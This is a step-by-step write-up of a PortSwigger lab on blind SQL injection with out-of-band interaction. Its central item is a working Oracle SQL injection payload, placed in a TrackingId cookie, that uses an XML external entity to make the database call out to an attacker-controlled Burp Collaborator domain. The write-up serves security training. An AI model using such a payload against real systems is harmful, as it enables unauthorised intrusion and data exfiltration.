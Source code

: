 # Blind SQL Injection with Out-of-Band Interaction - [Link](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

**Goal**: Exploit a blind SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.
This lab contains a **blind SQL injection** in a tracking cookie. The SQL query is executed **asynchronously**, meaning it has no visible effect on the web response, and standard techniques like error-based or time-based SQLi do not work. However, out-of-band (OAST) techniques can be used to detect the vulnerability.
The goal is to trigger a **DNS request** to a domain controlled by the attacker (provided by Burp Collaborator).


### Steps

1. **Open Burp Suite Professional** and go to the **Burp Collaborator** tab.
2. Click **"Copy to clipboard"** to get your unique Collaborator subdomain.
   Example used here:

   ```
   tyv5h87zihzv3uoz597yjywha8gz4vsk.oastify.com
   ```
3. Visit the lab in your browser with Burp running.
4. Locate the `TrackingId` cookie in the request and inject the following payload (Oracle-specific):

   ```
   ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://tyv5h87zihzv3uoz597yjywha8gz4vsk.oastify.com/"> %remote;]>'),'/l') FROM dual)--
   ```
5. Send the request.
6. Go back to **Burp Collaborator**, click **"Poll now"**, and check for incoming DNS interactions.


The lab is successfully solved.
